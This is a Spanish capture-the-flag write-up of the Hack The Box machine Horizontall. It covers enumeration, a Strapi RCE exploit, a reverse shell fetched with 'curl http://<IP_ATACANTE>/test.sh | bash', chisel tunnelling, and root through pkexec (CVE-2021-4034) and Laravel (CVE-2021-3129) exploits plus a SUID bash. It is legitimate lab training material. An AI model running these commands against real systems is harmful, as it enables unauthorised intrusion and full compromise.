


# Writeup de la máquina Horizontall realizado por Daniel Damota

<p align="center">
  
</p>

## Información General

- **Plataforma**: [Hackthebox](https://www.hackthebox.com/)
- **Nivel de Dificultad**: Fácil
- **Sistema Operativo Detectado**: Linux
- **Fecha de Ejecución**: 10/03/2025
- **Metodología**: Enumeración → Explotación → Escalada de Privilegios

## Machine Matrix

<p align="center">
  
</p>

## Técnicas utilizadas

- **Enumeración web de directorios y subdominios con Gobuster**

- **Fugas de información (Versión de Strapi)**

- **Explotación de Strapi (RCE sin estar autenticado)**

- **Port Forwarding con Chisel**

- **Abuso de Pkexec para escalar privilegios (CVE-2021-4034) [Primera forma de escalar]**

- **Explotación de Laravel (CVE-2021-3129) [Segunda forma de escalar]**

---

## 1. Reconocimiento y Enumeración

Comprobamos si la máquina está activa mediante el envío de un paquete ICMP y por el TTL, que es cercano a 64, reconocemos que es una máquina Linux.

```
ping -c1 <IP>
```


Realizamos un primer escaneo con nmap para conocer los puertos abiertos de la máquina y volcamos el resultado en un archivo en formato "grepeable" para realizar un tratamiento mediante expresiones regulares (regex):

```
nmap -p- -sS --open --min-rate 5000 -vvv -Pn -n <IP> -oG allPorts
```


Usando una función en bash, extraemos la información mas relevante de la captura grepeable y copiamos los puertos abiertos a la clipboard mediante xclip. La función previamente defina es la siguiente:

```
# Extract nmap information:
function extractPorts(){
        ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{prin>
        ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{>
        echo -e "\n[*] Extracting information...\n" > extractP>
        echo -e "\t[*] IP Address: $ip_address"  >> extractPor>
        echo -e "\t[*] Open ports: $ports\n"  >> extractPorts.>
        echo $ports | tr -d '\n' | xclip -sel clip
        echo -e "[*] Ports copied to clipboard\n"  >> extractP>
        cat extractPorts.tmp; rm extractPorts.tmp      
}
```


Ahora realizamos un escaneo mas exhaustivo de los puertos (debido a la alta cantidad de puertos, vamos a extraer la evidencia en formato XML mediante el parámetro -oX para visualizarlo todo de manera más cómoda a través del navegador):

```
nmap -sCV -p<PUERTOS> <IP> -oN targeted -oX targeted.xml
```


Si nos fijamos en el archivo targeted, veremos que hay un redirect hacia http://horizontal.htb, lo cual estaría bien incluir en nuestro archivo /etc/hosts:


Ahora podemos acceder al servicio web:

```
http://horizontall.htb
```


Si vamos probando cosas con la página, veremos que no hay nada funcional. Podemos hacer una enumeración de directorios con Gobuster (para tener el diccionario haceis un sudo apt install seclists):

```
gobuster dir -u 'http://horizontall.htb/' -w '/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt' -t 200
```


Podemos intentar visualizar el contenido, pero adelanto que no tendremos permisos de acceso, por lo tanto vamos a intentar enumerar otra cosa, como subdominios:

```
gobuster vhost -u 'http://horizontall.htb/' -w '/usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt' -t 200 --append-domain
```


Vamos a incluir el subdominio en el /etc/hosts:


Si visualizamos en contenido de dicho subdominio, podemos ver que no hay nada:


Podemos hacer una enumeración de directorios con Gobuster en el subdominio:

```
gobuster dir -u 'http://api-prod.horizontall.htb/' -w '/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt' -t 200
```


Podemos ver que hay en /admin, que suena interesante:



Vemos que el gestor de contenido es Strapi y que hay un panel de login:


Podemos buscar credenciales por defecto, pero os adelanto que no hay, por lo tanto vamos a ver las otras rutas:


Vemos que en /reviews hay potenciales usuarios, pero no dispongo de credenciales. Viendo que no sabemos que más hacer, podemos realizar otra enumeración de directorios dentro de /reviews y dentro de /admin:

```
gobuster dir -u 'http://api-prod.horizontall.htb/admin/' -w '/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt' -t 200 --exclude-length 854
```


Vamos a ver que hay dentro de cada ruta:


## 2. Explotación

Vemos que en /init nos dice la versión de Strapi, por lo que podemos ver si tiene alguna vulnerabilidad:

```
searchsploit strapi
```


Viendo que hay un exploit de ejecución remota de comandos, podemos usarlo (el exploit lo que hace es cambiar la contraseña del administrador e instalar un plugin vulnerable que permite la ejecución de comandos):

```
searchsploit -m multiple/webapps/50239.py
```


Vemos que al ejecutarlo nos dice que el output del comando no se puede ver, podemos probar si de verdad tenemos ejecución enviandonos un ping y estando a la escucha de recibirlo:

```
tcpdump -i tun0 icmp -n
```


Vemos que si es cierto que tenemos ejecución remota de comandos, por lo que podemos tratar de tener un servicio http con python donde se comparta una reverse shell y que la máquina víctima haga una petición por GET a dicho recurso:

En la máquina atacante creamos una reverse shell de una linea en bash:


Lo compartimos con python:

```
python -m http.server 80
```

Y nos ponemos en escucha con netcat por el puerto 443:

```
netcat -lvnp 443
```

En la máquina víctima hacemos lo siguiente:

```
curl http://<IP_ATACANTE>/test.sh | bash
```


Ahora realizamos un tratamniento de la tty para operar con mayor comodidad con la consola:

```
script /dev/null -c bash
```
```
ctrl + z
```
```
stty raw -echo; fg
```

```
reset xterm
```

```
export TERM=xterm
```


Ahora cambiamos el total de filas y columnas de la tty:

- En la máquina atacante:

```
stty size
```

- En la máquina víctima:

```
stty rows <nºfilas> columns <nºcolumnas>
```

Vamos al directorio /home y visualizamos la primera flag:


---

## 3. Escalada de privilegios

Ahora que hemos conseguido el acceso, nuestro objetivo es escalar privilegios y convertirnos en root. Para ello realizamos unas enumeraciones:

- Permisos asignados a nivel de sudoers:

```
sudo -l
```


- Ficheros con permisos SUID

```
find / -perm -4000 2>/dev/null
```


Vemos que podemos ejecutar pkexec, cosa curiosa y que ademas nos puede permitir escalar privilegios, así que vamos a probarlo:

https://github.com/berdav/CVE-2021-4034

Nos clonamos el repositorio y lo pasamos a la máquina mediante http por python y curl:

- En la máquina atacante:

```
git clone https://github.com/berdav/CVE-2021-4034
```

```
zip -r comprimido.zip CVE-2021-4034
```

```
python -m http.server 80
```

- En la máquina víctima

```
curl http://<IP>/comprimido.zip -o comprimido.zip
```

```
unzip comprimido.zip
```


Nos metemos dentro del directorio CVE-2021-4034 y hacemos un make para compilar todo, luego de ello ejecutamos el exploit (AVISO: puede tardar un poco):


Sin embargo la máquina no estaba destinada a escalar privilegios de esta manera y hay otra forma de hacerlo, así que vamos con ello:

- Hacemos netstat -nat para ver puertos abiertos, en caso de que desde fuera no pudiese verse:



Vemos ahora los puertos 8000, 1337 y 3306, podemos jugar con port forwarding para verlo desde la máquina atacante usando chisel:

- En la máquina atacante:

```
https://github.com/jpillora/chisel/releases
```

Instalamos la versión de linux amd64 en formato gz


```
gunzip chisel_1.10.1_linux_amd64.gz
```

```
mv chisel_1.10.1_linux_amd64 chisel
```

```
chmod +x chisel
```

```
python -m http.server 80
```

- En la máquina víctima:

```
wget http://<IP_ATACANTE>/chisel
```
```
chmod +x chisel
```


En la máquina atacante nos montamos el servidor por el puerto 1234:

```
./chisel server --reverse -p 1234
```


En la máquina víctima hacermos el remote port forwarding, de tal manera que conectaremos los puertos 200 de la máquina atacante con el 8000 de la víctima:

```
./chisel client <IP_ATACANTE>:1234 R:200:localhost:8000
```

Ahora si vamos a la máquina atacante y buscamos en el navegador http://localhost:200 veremos lo siguiente:


Estamos ante un Laravel, que si miramos en la esquina inferior derecha veremos la versión, la cual podemos buscar si es vulnerable:


Vemos que es vulnerable a ejecución de comandos, por lo que vamos a copiarnos un exploit y lo ejecutamos:

```
git clone https://github.com/0x0d3ad/CVE-2021-3129
```

Si seguimos los pasos del repositorio y usamos el exploit vemos que tenemos ejecución remota de comandos:


Cambiamos los permisos de la bash para que sea SUID:

```
chmod u+s /bin/bash 
```


Y ahora volvemos a la ventana de acceso de la máquina víctima, donde dejamos anteriormente el chisel corriendo y usamos el siguiente comando:

```
bash -p
```

Visualizamos la última flag:


